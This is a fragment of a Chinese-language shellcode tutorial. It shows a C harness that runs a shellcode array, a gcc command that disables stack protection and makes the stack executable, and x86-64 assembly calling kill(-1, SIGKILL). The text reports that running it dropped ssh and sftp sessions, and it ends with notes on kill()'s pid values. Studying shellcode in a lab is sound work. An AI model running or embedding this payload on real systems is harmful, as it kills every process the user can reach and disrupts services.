 ```bash

int main()
{

printf("Shellcode Length:  %d\n", (int)strlen(code));

int (*ret)() = (int(*)())code;

ret();

return 0;
}
```
2. 进行编译链接
```bash
gcc -fno-stack-protector -z execstack killprocess.c -o killprocess
```
3. 执行:`./killprocess`                                
会发现ssh，sftp连接被断开，而且退出了登录                         
![](./img/killprocess.png)                             
4. 汇编语言
```bash
========DESCTIPTION===========================
      #include <sys/types.h>
      #include <signal.h>
        int kill(pid_t pid, int sig); 

#### 汇编语言
	push 	0x3e		; sys kill
	pop  	rax
	push 	-1 			; pid  # 将信号广播传送给系统内所有的进程
	pop		rdi
	push	0x9			; sig kill
	pop 	rsi
	syscall
```
* kill()可以用来送参数sig 指定的信号给参数pid 指定的进程。参数pid 有几种情况：
1. pid>0 将信号传给进程识别码为pid 的进程.
2. pid=0 将信号传给和目前进程相同进程组的所有进程
3. pid=-1 将信号广播传送给系统内所有的进程
4. pid<0 将信号传给进程组识别码为pid 绝对值的所有进程参数 sig 代表的信号编号可参考附录D
* 相当于调用kill函数，并将kill的信号广播给所有的进程           